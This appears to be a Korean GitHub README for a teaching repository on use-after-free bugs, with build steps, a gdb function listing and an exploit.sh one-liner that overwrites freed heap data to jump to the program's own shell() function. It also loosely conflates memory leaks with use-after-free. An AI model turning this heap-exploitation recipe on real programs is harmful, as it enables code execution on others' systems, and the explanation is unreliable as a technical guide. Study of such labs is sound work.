

# UAF_TEST
UAF_vulnerability_Test_For_GC

왜 메모리 leak이 위험한지에 대해 설명하고 싶었다.

UAF란
Use After Free의 약자로 말 그대로 free한 뒤에 사용 하면 나타나는 취약점이다. \
uaf_test.cpp를 보면 정확한 UAF취약점은 아니지만 아무튼 free한 뒤에 heap영역에 접근 하고있다.

이는 OS의 Heap 관리를 어떻게 하는지 알아야하는데 OS는 Free를 할때 메모리가 사용되지 않음을 체크하고 Data는 그냥 놔둔다. 그래서 이러한 exploit이 가능한 것이다. 

## 사용법
>$git clone https://github.com/kimsos0723/UAF_TEST \
>$ make 

>$ ./exploit.sh 
>>이것을 했을때 오류가 난다면 

>$ apt install gdb \
>$ gdb -q ./uaf \
>(gdb) info func 
> ~~~
>Non-debugging symbols:
>0x0000000000400438  _init
>0x0000000000400460  free@plt
>0x0000000000400470  puts@plt
>0x0000000000400480  malloc@plt
>0x0000000000400490  scanf@plt
>0x00000000004004a0  _start
>0x00000000004004d0  _dl_relocate_static_pie
>0x00000000004004e0  deregister_tm_clones
>0x0000000000400510  register_tm_clones
>0x0000000000400550  __do_global_dtors_aux
>---Type <return> to continue, or q <return> to quit---
>0x0000000000400580  frame_dummy
>0x0000000000400587  printName(void*)
>0x00000000004005a2  shell()
>0x00000000004005b5  main
>0x0000000000400660  __libc_csu_init
>0x00000000004006d0  __libc_csu_fini
>0x00000000004006d4  _fini
>~~~
>>이것을 보고 \
>>$ vim ./exploit.sh
>>~~~python
>>(python -c 'print "a"*16+"{ shell()의 주소를 little endian으로 }"') | ./uaf 
>>~~~
>> 이렇게 하면된다.

